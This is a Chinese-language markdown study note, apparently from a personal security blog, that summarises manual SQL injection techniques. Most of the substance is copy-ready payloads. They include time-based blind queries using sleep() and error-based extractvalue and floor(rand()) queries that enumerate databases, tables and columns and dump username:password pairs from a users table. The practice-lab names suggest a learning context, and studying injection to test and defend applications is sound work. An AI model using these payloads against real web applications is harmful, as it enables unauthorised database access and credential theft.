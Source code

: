 ```yaml
---
title: "[漏洞总结]0x1手工SQL总结"
desc: TonyD0g
date: 2022-01-05 15:55:26
tags: 漏洞总结
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-01-05
## SQL注入常用方法:
#### (通常相互搭配)

- 1.时间型注入
- 2.布尔型注入
- 3.报错型注入
- 4.UA注入
- 5.referer注入
- 6.Get/Post型注入
- 7.cookie型注入
- 8.编码注入

1.时间型注入:
```
库:
id=admin' and if(length(database())=8,sleep(5),1)--+
id=admin' and if(left(database(),1)='s',sleep(5),1)--+
表: 
id=admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+
列:
id=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+
值: 
id=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
id=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```
2.布尔型注入:
```
根据 相关表达式是否相等 来判断注入是否成功.
代码与 "1.时间型注入" 相同.
```
3.报错型注入:
```
根据 页面上显示的字符 来判断注入是否成功,比如注入成功后显示"success",注入失败后显示"fail".
```
4/5/6/7/8 UA注入 , referer注入 , Get/Post注入 , cookie注入
```
在UA头里注入 , 在referer里注入 , Get/Post方式注入 , 在cookie里注入
```
8.编码注入
```
注入的数据必须经过编码,否则注入无效.
```
## 常用SQL注入命令:
extractvalue函数,updatexml函数
```
爆库:
id=admin' and extractvalue(1,concat(0x7e,(select database()))) --+
爆表:
id=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
查询除emails以外的其他表:
id=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() and table_name not in ('emails')))) --+
爆列名:
id=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+
爆值:
id=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+
同样利用not in,可以查询其他值:
id=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','I-kill-you'))))--+
```
concat函数
```
id=admin' union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))as a from information_schema.tables group by a --+
```

## 学习来源:
```
SQL注入Wiki:
http://sqlwiki.radare.cn/#/
```
</font>